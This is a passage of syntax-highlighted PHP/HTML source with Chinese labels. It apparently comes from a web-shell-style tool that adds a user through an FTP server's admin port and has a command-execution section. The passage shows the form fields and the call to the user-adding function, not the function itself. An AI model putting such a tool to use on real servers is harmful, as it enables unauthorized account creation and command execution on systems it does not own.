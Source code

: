       <span><span class="string"></table></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><hr&nbsp;width="660"><br></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><textarea&nbsp;cols="60"&nbsp;rows="10"&nbsp;readonly>命令回显:</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><?php</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">//添加用户</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">if&nbsp;($_GET['</span><span>action</span><span class="string">']=="up"){</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;up($addr,$ftpport,$adminport,$adminuser,$adminpass,$user,$password,$homedir);</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;?></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"></textarea></center><br><hr&nbsp;width="660"></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><center><b>执行命令部分</b><br></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><form&nbsp;action="<?=$_SERVER['</span><span>PHP_SELF</span><span class="string">']?>"&nbsp;method="get"></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><table&nbsp;width="660"&nbsp;border="0"&nbsp;cellpadding="0"></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center">主机Ftp端口：</td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="ftpport"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$ftpport?>"></td></tr></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center">用户名：</td>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="user"&nbsp;type="text"&nbsp;class="INPUT"&nbsp;value="<?=$user?>"></td></tr></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><tr><td&nbsp;width="300"&nbsp;align="center">用户名密码：</td><td&nbsp;width="360"&nbsp;align="center"><input&nbsp;name="password"&nbsp;type="password"&nbsp;class="INPUT"&nbsp;value="<?=$password?>"></td></tr></span>&nbsp;</span>
    </li>